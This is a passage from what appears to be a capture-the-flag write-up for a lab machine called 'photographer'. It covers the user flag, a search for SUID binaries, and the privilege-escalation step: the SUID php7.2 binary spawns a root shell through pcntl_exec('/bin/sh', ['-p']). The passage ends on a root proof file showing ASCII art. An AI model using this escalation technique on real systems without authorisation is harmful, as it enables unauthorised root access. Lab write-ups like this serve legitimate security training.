 In home directory of `daisa` we get `user flag`.
```
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```
# Privesc
Looking at SUID files, `/usr/bin/php7.2` seem suspicious to me.
```
www-data@photographer:/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ntfs-3g
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```
[GTFObins](https://gtfobins.github.io/gtfobins/php/) help me to get shell.
![gtfo](/assets/img/photographer/gtfo.png)
```
www-data@photographer:/tmp$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
#
```

# Root Flag
```
# cat proof.txt
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
```